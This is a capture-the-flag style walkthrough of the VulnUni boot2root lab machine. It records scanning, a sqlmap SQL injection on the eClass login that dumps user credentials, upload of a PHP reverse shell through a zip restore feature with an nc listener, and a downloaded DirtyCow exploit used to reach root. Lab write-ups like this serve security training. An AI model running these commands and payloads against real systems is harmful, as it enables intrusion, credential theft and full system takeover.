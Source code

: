 #+HTML_HEAD: <link rel="stylesheet" type="text/css" href="org.css"/>
#+OPTIONS: num:0 toc:nil html-postamble:nil
#+PROPERTY: header-args :tangle yes :exports both :eval no-export :results output
 - [[file:index.html][home]]
* VulnUni                                                         :boot2root:
  Its been a while since I did a boot2root, and I got really bored one weekend so I decided to do one.
** Discovery
   All good things start off with =nmap=, and in this case I'll just use the defaults.

   #+begin_src shell
     nmap -Pn -n 192.168.0.120
   #+end_src

   #+RESULTS:
   : Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-18 17:53 BST
   : Nmap scan report for 192.168.0.120
   : Host is up (0.0077s latency).
   : Not shown: 999 filtered ports
   : PORT   STATE SERVICE
   : 80/tcp open  http
   : 
   : Nmap done: 1 IP address (1 host up) scanned in 13.34 seconds

   Only port =80= reported from a basica scan, for now I'll continue on port =80=, until I hit any road blocks.

   Content discovery is next on the list, and =gobuster= is pretty good at that.

   #+begin_src shell :dir ~/go/bin/
     ./gobuster dir -u http://192.168.0.120/ -w ~/opt/SecLists/Discovery/Web-Content/common.txt
   #+end_src

   #+RESULTS:
   #+begin_example
   ===============================================================
   Gobuster v3.0.1
   by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
   ===============================================================
   [+] Url:            http://192.168.0.120/
   [+] Threads:        10
   [+] Wordlist:       ~/opt/SecLists/Discovery/Web-Content/common.txt
   [+] Status codes:   200,204,301,302,307,401,403
   [+] User Agent:     gobuster/3.0.1
   [+] Timeout:        10s
   ===============================================================
   2020/05/18 17:55:05 Starting gobuster
   ===============================================================
   /.htaccess (Status: 403)
   /.htpasswd (Status: 403)
   /.hta (Status: 403)
   /about (Status: 200)
   /blog (Status: 200)
   /cgi-bin/ (Status: 403)
   /contact (Status: 200)
   /courses (Status: 200)
   /css (Status: 301)
   /fonts (Status: 301)
   /images (Status: 301)
   /index (Status: 200)
   /index.html (Status: 200)
   /js (Status: 301)
   /server-status (Status: 403)
   ===============================================================
   2020/05/18 17:55:09 Finished
   ===============================================================
   #+end_example

   Hmm not much to go on, I tried a bunch of other wordlists, but nothing..

   Maybe I'm over complicating things. 

   A bit of looking around later I decided to look at the source for comments, and yeah I've found a comment of interest.

   #+begin_src shell
     curl -s http://192.168.0.120/courses.html | grep "<!--"
   #+end_src

   #+RESULTS:
   : 				<!-- Disabled till new version is installed -->
   : 				<!-- <li class="nav-item"><a href="vulnuni-eclass-platform.html" class="nav-link">EClass Platform</a></li> -->
   :     <!-- END nav -->
   :             <p><!-- Link back to Colorlib can't be removed. Template is licensed under CC BY 3.0. -->
   :   <!-- Link back to Colorlib can't be removed. Template is licensed under CC BY 3.0. --></p>
   :   <!-- loader -->

   The page =vulnuni-eclass-platform.html= did not come up in the directory brute force, so lets browse to that.

   And sure enough, there is what looks to be an admin portal.

   [[./vulnuni/vulnuni-eclass.png]]

** Exploitation
   
   Looking for exploits for the Admin portal (eClass) with =getsploit=.

   #+begin_src shell :dir ~/.local/bin
     ./getsploit eClass
   #+end_src

   #+RESULTS:
   #+begin_example
   Total found exploits: 8
   Web-search URL: https://vulners.com/search?query=bulletinFamily%3Aexploit+AND+eClass
   +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+
   |          ID          |         Exploit Title          |                                                URL                                                 |
   +======================+================================+====================================================================================================+
   | BABBBSNW6R3JOXCPVRHB | WAFs don't work                | https://vulners.com/advertisement/BABBBSNW6R3JOXCPVRHB5HWHMRDWJ4QW809F9V8OS5Q6BVKSZ1C77FRPA125R2NS |
   | 5HWHMRDWJ4QW809F9V8O |                                |                                                                                                    |
   | S5Q6BVKSZ1C77FRPA125 |                                |                                                                                                    |
   |         R2NS         |                                |                                                                                                    |
   +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+
   |   1337DAY-ID-34046   | GUnet OpenEclass 1.7.3         |                              https://vulners.com/zdt/1337DAY-ID-34046                              |
   |                      | E-learning platform - (month)  |                                                                                                    |
   |                      | SQL Injection Vulnerability    |                                                                                                    |
   +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+
   | EXPLOITPACK:1041FF25 | GUnet OpenEclass 1.7.3         |            https://vulners.com/exploitpack/EXPLOITPACK:1041FF2504B12FD3B42DAC15838CE996            |
   | 04B12FD3B42DAC15838C | E-learning platform - month    |                                                                                                    |
   |         E996         | SQL Injection                  |                                                                                                    |
   +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+
   |  PACKETSTORM:156601  | GUnet OpenEclass 1.7.3 SQL     |                         https://vulners.com/packetstorm/PACKETSTORM:156601                         |
   |                      | Injection                      |                                                                                                    |
   +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+
   |     EDB-ID:48163     | GUnet OpenEclass 1.7.3         |                             https://vulners.com/exploitdb/EDB-ID:48163                             |
   |                      | E-learning platform -          |                                                                                                    |
   |                      | &#039;month&#039; SQL          |                                                                                                    |
   |                      | Injection                      |                                                                                                    |
   +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+
   | EXPLOITPACK:D446B164 | GUnet OpenEclass E-learning    |            https://vulners.com/exploitpack/EXPLOITPACK:D446B164277D1EC17F7D9AE0665B19D2            |
   | 277D1EC17F7D9AE0665B | platform 1.7.3 - uname SQL     |                                                                                                    |
   |         19D2         | Injection                      |                                                                                                    |
   +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+
   |     EDB-ID:48106     | GUnet OpenEclass E-learning    |                             https://vulners.com/exploitdb/EDB-ID:48106                             |
   |                      | platform 1.7.3 -               |                                                                                                    |
   |                      | &#039;uname&#039; SQL          |                                                                                                    |
   |                      | Injection                      |                                                                                                    |
   +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+
   |       SSV:3077       | Gentoo ssl-cert eclass |                                https://vulners.com/seebug/SSV:3077                                 |
   +----------------------+--------------------------------+----------------------------------------------------------------------------------------------------+
   #+end_example

   Lets try SQL injection on the login pages =uname= parameter then.

   #+begin_src shell :dir ~/opt/sqlmap-dev/
     ./sqlmap.py -u http://192.168.0.120/vulnuni-eclass/ --data "uname=test&pass=test&submit=Enter" -p uname
   #+end_src

   #+RESULTS:
   #+begin_example
	   ___
	  __H__
    ___ ___[']_____ ___ ___  {1.4.5.24#dev}
   |_ -| . [']     | .'| . |
   |___|_  [(]_|_|_|__,|  _|
	 |_|V...       |_|   http://sqlmap.org

   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

   [*] starting @ 18:13:45 /2020-05-18/

   [18:13:45] [INFO] resuming back-end DBMS 'mysql' 
   [18:13:45] [INFO] testing connection to the target URL
   you have not declared cookie(s), while server wants to set its own ('PHPSESSID=8v517iblhcp...6du7esuin7'). Do you want to use those [Y/n] Y
   sqlmap resumed the following injection point(s) from stored session:
   ---
   Parameter: uname (POST)
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: uname=test' AND (SELECT 9462 FROM (SELECT(SLEEP(5)))fxbY) AND 'PLXO'='PLXO&pass=test&submit=Enter
   ---
   [18:13:45] [INFO] the back-end DBMS is MySQL
   web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
   web application technology: Apache 2.2.22, PHP 5.3.10, PHP
   back-end DBMS: MySQL >= 5.0.12

   [*] ending @ 18:13:45 /2020-05-18/

   #+end_example
   
   Yep, looks like we have injection. Using =sqlmap= more I've found out that the current database is =eclass=.

   #+begin_example
     [18:16:51] [INFO] fetching current database
     [18:16:51] [INFO] resumed: eclass
     current database: 'eclass'
   #+end_example

   Looking around that database for a bit I found a column for username & passwords.

   #+begin_src shell :dir ~/opt/sqlmap-dev/ 
     ./sqlmap.py -u http://192.168.0.120/vulnuni-eclass/ --data "uname=test&pass=test&submit=Enter" -p uname -D eclass -T user --dump --batch
   #+end_src

   #+RESULTS:
   #+begin_example
	   ___
	  __H__
    ___ ___[)]_____ ___ ___  {1.4.5.24#dev}
   |_ -| . [']     | .'| . |
   |___|_  [(]_|_|_|__,|  _|
	 |_|V...       |_|   http://sqlmap.org

   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

   [*] starting @ 11:40:35 /2020-05-25/

   [11:40:35] [INFO] resuming back-end DBMS 'mysql' 
   [11:40:35] [INFO] testing connection to the target URL
   you have not declared cookie(s), while server wants to set its own ('PHPSESSID=n08sq64vm1r...7srvt7s0o4'). Do you want to use those [Y/n] Y
   sqlmap resumed the following injection point(s) from stored session:
   ---
   Parameter: uname (POST)
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: uname=test' AND (SELECT 9462 FROM (SELECT(SLEEP(5)))fxbY) AND 'PLXO'='PLXO&pass=test&submit=Enter
   ---
   [11:40:35] [INFO] the back-end DBMS is MySQL
   web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
   web application technology: Apache 2.2.22, PHP 5.3.10, PHP
   back-end DBMS: MySQL >= 5.0.12
   [11:40:35] [INFO] fetching columns for table 'user' in database 'eclass'
   [11:40:35] [INFO] resumed: 11
   [11:40:35] [INFO] resumed: user_id
   [11:40:35] [INFO] resumed: nom
   [11:40:35] [INFO] resumed: prenom
   [11:40:35] [INFO] resumed: username
   [11:40:35] [INFO] resumed: password
   [11:40:35] [INFO] resumed: email
   [11:40:35] [INFO] resumed: statut
   [11:40:35] [INFO] resumed: phone
   [11:40:35] [INFO] resumed: department
   [11:40:35] [INFO] resumed: inst_id
   [11:40:35] [INFO] resumed: am
   [11:40:35] [INFO] fetching entries for table 'user' in database 'eclass'
   [11:40:35] [INFO] fetching number of entries for table 'user' in database 'eclass'
   [11:40:35] [INFO] resumed: 4
   [11:40:35] [INFO] resumed: smith.j.1971
   [11:40:35] [INFO] resumed:  
   [11:40:35] [INFO] resumed: 4
   [11:40:35] [INFO] resumed: smith.j@gmail.com
   [11:40:35] [INFO] resumed:  
   [11:40:35] [INFO] resumed: Smith
   [11:40:35] [INFO] resumed:  
   [11:40:35] [INFO] resumed: John
   [11:40:35] [INFO] resumed: 1
   [11:40:35] [INFO] resumed: 2
   [11:40:35] [INFO] resumed: smith.j
   [11:40:35] [INFO] resumed: ilikecats89

   [11:40:35] [INFO] retrieved: [11:40:35] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)
   [11:40:36] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

   [11:40:36] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
   [11:40:36] [INFO] resumed:  
   [11:40:36] [INFO] resumed: adminvulnuni@gmail.com
   [11:40:36] [INFO] resumed:  
   [11:40:36] [INFO] resumed: admin
   [11:40:36] [INFO] resumed:  
   [11:40:36] [INFO] resumed: admin
   [11:40:36] [INFO] resumed: 1
   [11:40:36] [INFO] resumed: 1
   [11:40:36] [INFO] resumed: admin
   [11:40:36] [INFO] resumed: hf74nd9dmw
   [11:40:36] [INFO] resumed: 1758694758
   [11:40:36] [INFO] resumed: 4
   [11:40:36] [INFO] resumed: garris.e@gmail.com
   [11:40:36] [INFO] resumed:  
   [11:40:36] [INFO] resumed: Garris
   [11:40:36] [INFO] resumed:  
   [11:40:36] [INFO] resumed: Erick
   [11:40:36] [INFO] resumed: 5
   [11:40:36] [INFO] resumed: 3
   [11:40:36] [INFO] resumed: garris.e
   [11:40:36] [INFO] resumed: i74nw02nm3
   [11:40:36] [INFO] resumed: 5684758210
   [11:40:36] [INFO] resumed: 4
   [11:40:36] [INFO] resumed: perez.s@gmail.com
   [11:40:36] [INFO] resumed:  
   [11:40:36] [INFO] resumed: Perez
   [11:40:36] [INFO] resumed:  
   [11:40:36] [INFO] resumed: Stephanie
   [11:40:36] [INFO] resumed: 5
   [11:40:36] [INFO] resumed: 4
   [11:40:36] [INFO] resumed: perez.s
   Database: eclass
   Table: user
   [4 entries]
   +---------+---------+------------+--------+-------+------------------------+-----------+--------+----------+--------------+------------+
   | user_id | inst_id | am         | nom    | phone | email                  | prenom    | statut | username | password     | department |
   +---------+---------+------------+--------+-------+------------------------+-----------+--------+----------+--------------+------------+
   | 2       | NULL    | NULL       | Smith  | NULL  | smith.j@gmail.com      | John      | 1      | smith.j  | smith.j.1971 | 4          |
   | 1       | NULL    | <blank>    | admin  | NULL  | adminvulnuni@gmail.com | admin     | 1      | admin    | ilikecats89  | NULL       |
   | 3       | NULL    | 1758694758 | Garris | NULL  | garris.e@gmail.com     | Erick     | 5      | garris.e | hf74nd9dmw   | 4          |
   | 4       | NULL    | 5684758210 | Perez  | NULL  | perez.s@gmail.com      | Stephanie | 5      | perez.s  | i74nw02nm3   | 4          |
   +---------+---------+------------+--------+-------+------------------------+-----------+--------+----------+--------------+------------+

   [*] ending @ 11:40:36 /2020-05-25/

   #+end_example

** Exploitation

   Logging into the application with the admin creds above I get admin access to the application.
   
   Reviewing the admin functionality there is the ability to upload a =.zip= file in the "Restore a course" functionality.

   [[./vulnuni/rescourse.png]]

   I'll upload a =php= reverse shell.

   First I need to download it.

   #+begin_src shell :results silent
     wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php 
   #+end_src

   And then use this nice one liner to change the IP address in the file.

   #+begin_src shell
     sed -i s/"$ip = '127.0.0.1';"/"$ip = '$(ip addr show wlp3s0 | grep inet | cut -d ' ' -f 6 | cut -d '/' -f 1)';"/g ./php-reverse-shell.php
   #+end_src

   Then make the zip and upload.

   #+begin_src shell
    zip payload.zip ./php-reverse-shell.php 
   #+end_src

   #+RESULTS:
   : updating: php-reverse-shell.php (deflated 59%)

   Finally setup a listener for the shell to come back on.

   #+begin_src shell
     nc -nlvp 1234
   #+end_src

   The next step is to call the file I uploaded, during discovery I did notice directory listing at =/vulnuni-eclass/courses/= 
   Looking back there in the tmp folder I see the uploaded reverse shell. and if I call that with =curl= I get a shell on my listener.

   #+begin_src shell
     curl -s http://www.vulnuni.local/vulnuni-eclass/courses/tmpUnzipping/php-reverse-shell.php
   #+end_src
  
  [[./vulnuni/shell.png]]

** Post Exploitation

   First things first is that I need an interactive shell. I'll do that with the following command.

   #+begin_src shell
     /bin/bash -i
   #+end_src

   Its not perfect, and I know there are much better ways to have a "full" shell, but it'll do for me.

   The first flag is in the home directory..

   [[./vulnuni/first_flag.png]]

   Remember the output when I got the shell, it included the kernel version, searching for an exploit, I discovered that it may be vulnerable to dirtycow. 

   I decided to download it to the box, and compile it.

   #+begin_src shell
     cd /tmp && wget https://gist.githubusercontent.com/scumjr/17d91f20f73157c722ba2aea702985d2/raw/a37178567ca7b816a5c6f891080770feca5c74d7/dirtycow-mem.c
   #+end_src

   The exploit has a comment on how to compile it. and it seemed like it worked on the box. Now to run it.

   [[./vulnuni/root.png]]

   Yep, got root.
